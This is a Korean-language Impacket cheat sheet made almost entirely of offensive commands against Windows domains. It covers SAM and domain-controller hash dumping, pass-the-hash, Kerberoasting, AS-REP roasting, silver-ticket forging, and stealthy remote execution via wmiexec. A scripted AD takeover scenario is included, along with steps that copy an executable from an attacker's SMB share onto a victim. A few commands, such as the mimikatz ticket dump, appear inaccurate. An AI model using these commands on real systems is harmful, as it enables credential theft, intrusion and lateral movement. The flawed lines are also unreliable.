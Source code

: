 # Impacket 사용 가이드

## 설치

```bash
# 기본 설치
pip3 install impacket

# GitHub에서 최신 버전 설치
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install -r requirements.txt
python3 setup.py install

# Kali에서 설치
sudo apt-get install python3-impacket
```

## 주요 도구

### SMB 관련 도구

```bash
# SMB 서버 실행 (파일 공유용)
sudo impacket-smbserver share /tmp/share -smb2support

# 비밀번호 있는 SMB 서버 실행
sudo impacket-smbserver share /tmp/share -smb2support -username user -password password

# PsExec로 원격 명령 실행
impacket-psexec administrator:password@10.10.10.10

# SMB 클라이언트
impacket-smbclient domain/username:password@10.10.10.10
```

### 인증 관련 도구

```bash
# 해시 덤프 (SAM 파일)
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

# 원격 시스템에서 해시 덤프
impacket-secretsdump domain/username:password@10.10.10.10

# PTH(Pass-The-Hash) 공격
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@10.10.10.10
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@10.10.10.10
```

### Kerberos 관련 도구

```bash
# Kerberoasting
impacket-GetUserSPNs domain/username:password -dc-ip 10.10.10.10 -request

# AS-REP Roasting (사전 인증 없는 계정)
impacket-GetNPUsers domain/ -usersfile usernames.txt -dc-ip 10.10.10.10

# Kerberos 티켓 덤프
impacket-mimikatz -k sekurlsa::tickets

# Silver 티켓 생성
impacket-ticketer -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain> -spn <service_spn> <username>
```

### 원격 실행 도구

```bash
# WMI로 원격 명령 실행 (덜 눈에 띔)
impacket-wmiexec domain/username:password@10.10.10.10 "whoami"

# DCOM을 통한 원격 실행
impacket-dcomexec domain/username:password@10.10.10.10

# MSSQL 서버 원격 명령 실행
impacket-mssqlclient domain/username:password@10.10.10.10 -windows-auth
```

### 기타 유용한 도구

```bash
# MSSQL 서버에 인증 및 쿼리 실행
impacket-mssqlclient username:password@10.10.10.10
impacket-mssqlclient -windows-auth domain/username:password@10.10.10.10

# RPC 클라이언트
impacket-rpcdump domain/username:password@10.10.10.10

# LDAP 쿼리
impacket-lookupsid domain/username:password@10.10.10.10
```

## 자주 사용하는 시나리오

### Active Directory 침투 시나리오

```bash
# 1. 도메인 컨트롤러 찾기
impacket-netview -domain example.local

# 2. 사용자 열거
impacket-lookupsid domain/username:password@10.10.10.10

# 3. AS-REP Roasting
impacket-GetNPUsers domain/ -usersfile users.txt -dc-ip 10.10.10.10 -format hashcat

# 4. Kerberoasting
impacket-GetUserSPNs domain/username:password -dc-ip 10.10.10.10 -request -outputfile hashes.txt

# 5. 해시 크래킹 후 PTH 공격
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 domain/administrator@10.10.10.10

# 6. 도메인 컨트롤러에서 모든 비밀번호 해시 추출
impacket-secretsdump domain/administrator:password@10.10.10.10
```

### 파일 전송 시나리오

```bash
# 1. SMB 서버 실행
sudo impacket-smbserver share /tmp/share -smb2support

# 2. 윈도우 측에서 접근 (cmd)
copy \\<kali-ip>\share\file.exe C:\temp\file.exe

# 3. PowerShell을 이용한 파일 전송
Copy-Item -Path "\\<kali-ip>\share\file.exe" -Destination "C:\temp\file.exe"
```

## 팁과 주의사항

- 대부분의 impacket 도구는 `-debug` 옵션 지원 (문제 해결 시 유용)
- 해시 포맷: `LM:NT` 또는 `aad3b435b51404eeaad3b435b51404ee:NT해시값`
- 도메인 컨트롤러 IP는 `-dc-ip` 옵션으로 명시
- `-k` 옵션으로 Kerberos 인증 사용 가능
- 항상 상대방 시스템에 로그를 남긴다는 점 유의
- 원격 실행 시 wmiexec가 가장 스텔스한 방법
